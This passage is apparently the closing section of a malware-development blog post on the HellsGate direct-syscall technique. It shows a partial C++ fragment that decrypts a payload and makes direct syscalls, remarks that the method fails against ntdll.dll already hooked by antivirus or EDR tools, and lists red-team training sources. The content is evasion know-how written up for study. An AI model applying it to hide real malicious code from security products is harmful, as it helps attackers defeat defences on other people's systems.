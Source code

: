 ```c++
...

	AESDecrypt((char *) payload, payload_len, (char *) key, sizeof(key));
	
	...
	// We are going to wait for 1 seconds
	LARGE_INTEGER Timeout;
	Timeout.QuadPart = -10000000;
	HellsGate(pVxTable->NtWaitForSingleObject.wSystemCall);
	status = HellDescent(hHostThread, FALSE, &Timeout);

	return TRUE;
```


![Alt text](https://rfc6592.github.io/assets/img/hellsgatevid.gif)

In summary, while HellsGate performs effectively, it encounters a limitation in its inability to handle _ntdll.dll_ that has already been hooked by security solutions such as AVs and EDRs running on the system.

---

## 0x6 - Sources

* https://institute.sektor7.net/rto-maldev-intermediate
* https://institute.sektor7.net/rto-win-evasion
* https://hadess.io/blog/
* https://maldevacademy.com/
